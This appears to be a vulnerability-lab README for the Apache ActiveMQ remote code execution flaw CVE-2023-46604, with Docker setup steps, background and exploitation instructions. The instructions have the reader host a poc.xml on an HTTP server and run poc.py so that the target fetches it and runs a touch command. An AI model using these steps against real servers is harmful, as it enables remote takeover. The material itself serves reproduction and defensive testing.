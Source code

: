# Apache ActiveMQ (Version < 5.18.3) RCE （CVE-2023-46604）

[中文版本(Chinese version)](README.zh-cn.md)

## Environment setup

Enter following commands to build and run the vulnerability environment:

```
docker compose up -d
```

The environment listens to port 61616 and port 8161, of which 61616 is the working port. In this vulnerability exploitation, we only need to use port 61616. When executing the vulnerability verification process, please first access port 8161 to confirm that the service has started successfully.

Visit `http://your-ip:8161/` to see the web page, indicating that the environment has been successfully run.

## Background brief

AApache ActiveMQ has a remote code execution vulnerability. This vulnerability may allow remote attackers with network access privileges to execute arbitrary shell commands by manipulating the serialized class types in the OpenWire protocol, leading to the instantiation of any class on the classpath of the agent.

| Default port | Default Condition                    |
|--------------|--------------------------------------|
| 8161 (web)   | Remote access requires configuration |
| 61616 (tcp)  | Remote access allowed                |

## Exploit

You can quickly start an HTTP server in the folder where the poc.xml file is located using the Python3 http.server module

```shell
python3 -m http.server 6666
```

execute poc.py

```shell
python3 poc.py target port http://ip of http server/poc.xml
```

You can check inside the ActiveMQ container using the following command:

docker exec cve-2023-46604-activemq-1 ls -l /tmp

If you see the output showing that touch /tmp/activeMQ-RCE-success has been executed successfully, then the exploit has worked.

![01.png](01.png)
